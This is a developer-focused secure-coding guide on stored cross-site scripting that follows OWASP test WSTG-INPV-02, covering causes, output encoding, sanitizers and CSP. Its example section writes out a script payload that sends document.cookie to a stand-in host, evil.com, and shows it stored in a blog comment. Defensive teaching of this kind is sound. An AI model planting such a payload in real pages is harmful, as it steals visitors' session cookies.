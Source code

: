 **WSTG-INPV-02**

Test Name----\> Testing for Stored Cross Site Scripting

Objectives----\> \- Identify stored input that is reflected on the client-side.

\- Assess the input they accept and the encoding that gets applied on return (if any).

**Overview-**

Stored XSS is the **nasty, persistent sibling** of Reflected XSS.

While Reflected XSS relies on tricking someone into clicking a malicious link, **Stored XSS quietly injects malicious scripts into a system where they live permanently** — usually in databases, logs, or CMS content — and execute every time a user visits the infected page.

It’s a **"write once, exploit many"** vulnerability. An attacker plants the payload, and any unsuspecting user who views the page triggers the script, often without even knowing it.

This is **especially dangerous in admin panels**, internal dashboards, comment sections, or anywhere user content is stored and displayed.

**Real World Example-**

Let’s say you have a blog comment section. An attacker submits:

\<script\>fetch('https://evil.com/steal?cookie=' \+ document.cookie)\</script\>  
This input gets **stored in your database** and is later rendered directly into the blog post without sanitization:

\<div *class*\="comment"\>  
    \<script\>fetch('https://evil.com/steal?cookie=' \+ document.cookie)\</script\>  
\</div\>  
Now every user (or admin) who views that post unknowingly runs the attacker’s JavaScript.

Welcome to the XSS horror show.

**How the Vulnerability occurs-**

* User input is stored (e.g., database, log, file).

* That data is then **rendered directly into the front-end** without being properly escaped/encoded.

* There’s **no context-aware output encoding**.

* Application trusts stored input, even in dynamic elements like innerHTML, document.write, or DOM manipulation via JavaScript.

Bonus: Sometimes **WYSIWYG editors or Markdown renderers** introduce XSS via plugins or unsafe sanitizers.

**Secure Coding Recommendations-**

**Input Filtering**

Use allowlists for input types like names, emails, etc. But again, **validation ≠ sanitization**. It just blocks the obvious junk.

**Context-Aware Output Encoding**

Before you display anything user-controlled:

* Encode for **HTML** if inserting into tags.  
* Encode for **Attributes** (quotes and special chars).  
* Encode for **JavaScript** if embedding inline values.

**Avoid Dangerous APIs**

Skip innerHTML, document.write, eval(), or jQuery's .html() unless you're escaping things properly or sanitizing everything.

**Mitigation Steps (Developer Focused)-**

**1\. Use a Secure Templating Engine**

Frameworks like React, Vue, Django, Jinja2, and Handlebars escape outputs by default. Use them. Trust them. Don’t bypass their protection.

**2\. Sanitize Input Where Output Encoding Isn’t Enough**

If users are allowed to submit rich HTML (like comments or posts), use sanitizers:

* [DOMPurify](https://github.com/cure53/DOMPurify) (for client-side)  
* OWASP Java HTML Sanitizer (for server-side Java apps)

These strip unsafe tags like \<script\>, \<iframe\>, or onmouseover.

**3\. Apply Content Security Policy (CSP)**

CSP adds another layer by **blocking inline scripts** unless explicitly allowed:

Content\-Security\-Policy: script\-src 'self'*;*

It's not foolproof, but it helps.

**4\. Educate Developers**

A surprising amount of stored XSS comes from junior devs writing things like:

\<div\>*$*{userInput}\</div\>

or worse:

element.innerHTML \= userInput*;*

Make sure your team knows how dangerous that line of code can be.